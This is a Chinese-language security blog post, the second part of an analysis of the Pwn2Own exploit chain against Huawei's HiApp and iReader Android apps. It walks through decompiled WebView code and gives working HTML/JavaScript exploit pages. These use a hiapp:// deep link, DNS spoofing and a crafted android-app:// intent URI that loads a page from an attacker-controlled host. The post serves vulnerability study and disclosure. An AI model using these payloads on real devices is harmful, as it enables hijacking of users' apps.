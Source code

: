 ```yaml
---
title: Pwn2Own华为HiApp漏洞原理与利用分析(下)
date: 2018-10-04 09:49:25
tags: Android漏洞
categories: 漏洞分析
---
```


### 0x01 前言
[Pwn2Own华为HiApp漏洞原理与利用分析(上)](http://www.freebuf.com/articles/terminal/172780.html)

阅读本篇的基础是先理解上篇的攻击构造链路。


### 0x02 漏洞分析
不知道有没有细心的同学发现我在上篇分析文章中留下的**彩蛋**。
本篇自然是从这个彩蛋切入.

<!-- more -->


``` java
this.mWebvewDelegate.initView(((Context)this), request);//我是彩蛋
this.mWebvewDelegate.loadPage(url);  // 加载url
```
从上篇的分析我们已经知道mWebvewDelegate的实例类为: `InternalWebviewDelegate`,那么切入InternalWebviewDelegate.initView函数进行分析。

``` java
 public void initView(Context arg6, Request arg7) {
        this.mContext = arg6;
        WebSettings v0 = this.webview.getSettings();
        ...
        this.webview.removeJavascriptInterface("accessibility");
        this.webview.removeJavascriptInterface("accessibilityTraversal");
        if(Build$VERSION.SDK_INT >= 17) {
            this.webview.removeJavascriptInterface("searchBoxJavaBridge_");
        }
        ...
        this.webview.getSettings().setJavaScriptEnabled(true);//允许执行js脚本
        this.webview.requestFocus();
        this.webview.setWebViewClient(new InternalWebViewClient(this));
        this.webview.setWebChromeClient(new MarketWebChromeClient(this));
        this.webview.getSettings().setBlockNetworkImage(true);
        this.webview.addJavascriptInterface(new HiSpaceObject(this.mContext, ((JsCallBackOjbect)this), this.webview), "HiSpaceObject");  // 关键点,暴露了一个对象
        ...
    }
```

审计此代码可以发现`setJavaScriptEnabled(true)`可执行js脚本,上篇分析我们已经可以通过DNS欺骗,使得最终加载的url为我们可构造的任意页面或脚本，也即是可控制js输入。

关于addJavascriptInterface的用法，可阅读参考文章。关键点就是HiSpaceObject.class类中的 @JavascriptInterface注解,有此注解的方法也就是我们可以控制调用的方法。其中包括安装APP,卸载APP等等函数。

根据漏洞作者描述,他们的主要目的是寻找RCE,而HiApp中又无法触发,因此需要寻找其他App的漏洞来触发，因此这里的重点是分析能不能启动其他App,而恰好又暴露了这样的方法。

```java 
@JavascriptInterface public void launchApp(String pkgName, String uri) {
        URISyntaxException excrpt;
        Intent intent;
        a.a("HiSpaceObject", "launchApp");
        Intent newIntent = new Intent();
        try {
            intent = Intent.parseUri(uri, 0);//关键点
        }
        catch(URISyntaxException v0) {
            URISyntaxException v5 = v0;
            intent = newIntent;
            excrpt = v5;
            goto label_15;
        }

        try {
            intent.setPackage(pkgName);
            goto label_8;
        }
        catch(URISyntaxException excrpt) {
        }

    label_15:
        a.d("HiSpaceObject", "uri error!" + excrpt.toString());
    label_8:
        this.mActivity.startActivity(intent);
    }
```
分析以上代码我们可以发现,主要是需要两个参数,pkgName和Uri，最后调用startActivity去启动Activity。

这里自然就有问题了,如果没有办法传递一些extra到activity,那便是没有我们可以控制的数据流，也因此是没用的。但是由于调用了`Intent.parseUri(uri, 0);`,那么是否有突破的机会？

通过查看源码可知(详见参考Intent.java)

``` html
     * Flag for use with {@link #toUri} and {@link #parseUri}: the URI string
     * always has the "android-app:" scheme.  This is a variation of
     * {@link #URI_INTENT_SCHEME} whose format is simpler for the case of 
     * http/https URI being delivered to a specific package name.  The format
     * is:
     * <pre class="prettyprint">
     * android-app://{package_id}[/{scheme}[/{host}[/{path}]]][#Intent;{...}]
     * </pre>
```

因此可构造漏洞作者给出的PoC:

``` javascript
var pkg = "com.huawei.hwireader";var uri = "android-app://http/www.google.co.uk/#Intent;component=com.huawei.hwireader/com.zhangyue.iRe ader.online.ui.ActivityWeb;action=com.huawei.hwireader.SHOW_DETAIL;S.url=http://192 .168.137.1:8000/stage3.html;end";window.HiSpaceObject.launchApp(pkg,uri);
```
`http://192.168.137.1:8000/stage3.html` 这里加载的URL即为攻击payload

### 0x03 漏洞利用

可以本地搭建环境,也可使用vps。首先构造恶意网站exploit.html。诱导用户在浏览器中访问该页面。

``` html
<html>
<head>
    <title>exploit huawei</title>
</head>
     <body>
<script type ="text/javascript"> 
document.location = "hiapp://com.huawei.appmarket?activityName=activityUri|webview.activity&params={'params' : [ { 'name' : 'uri', 'type' : 'String', 'value' : 'internal_webview' }, { 'name' : 'url', 'type' : 'String', 'value' : 'http://www.vmall.com/exploit2.html' } ] }&channelId=1";
 </script>
     </body>
</html>
```

紧接着使用DNS欺骗,目的是当`internal_webview`解析`www.vmall.com`时指向的ip地址为恶意攻击地址,同时构造exploit2.html,如下.

``` html
<html>
<head>
      <title>exploit huawei stage 2 </title>
</head>
    <body>
          <script type ="text/javascript">
          var pkg = "com.huawei.hwireader";
var uri = "android-app://http/www.google.co.uk/#Intent;component=com.huawei.hwireader/com.zhangyue.iReader.online.ui.ActivityWeb;action=com.huawei.hwireader.SHOW_DETAIL;S.url=http://www.tasfa.cn/stage3.html;end";
window.HiSpaceObject.launchApp(pkg,uri);
          </script>
    </body>
</html>
```
exploit2.html的主要作用是调起IReader APP的存在漏洞的WebView,并使其加载任意的url。这里加载第三阶段我们可以控制的exploit3.html代码。

本次实验exploit3.html使用代码如下:(其他具体利用代码将在之后的分析报告中阐述)

``` html
<html>
<head>
         <title>exploit huawei stage 3 </title>
</head>
    <body>
          <script type ="text/javascript">
          alert('pwn huawei');
          </script>
    </body>
</html>
```

完整过程可查看下面GIF:

![pwnhwGif](/Users/tasfa/Downloads/pwnHW.gif)

### 0x04 漏洞总结

完整的攻击链路为: 

1. 诱导用户访问恶意网站exploit.html。
2. 使用DNS劫持或其他方式,绕过internal_webview的域名白名单限制。
3. 调用起其他APP存在漏洞的可利用的webView,加载恶意攻击页面,从而完成整个攻击链路。


### 0x05 参考
[Android 4.2版本以下使用WebView组件addJavascriptInterface方法存在JS漏洞](https://www.cnblogs.com/renhui/p/5899520.html)

[使用 addJavaScriptInterface() 方法在 WebView 中绑定 Java 对象](https://www.jianshu.com/p/ed0846a16659)

[Intent.java](http://androidxref.com/7.0.0_r1/xref/frameworks/base/core/java/android/content/Intent.java#4664)

### 0x06 声明
本文章仅做学习研究用途，其他非法用途，本人概不负责。建议华为手机用户尽快更新HiApp以及IReader应用，以免遭到入侵控制，造成损失。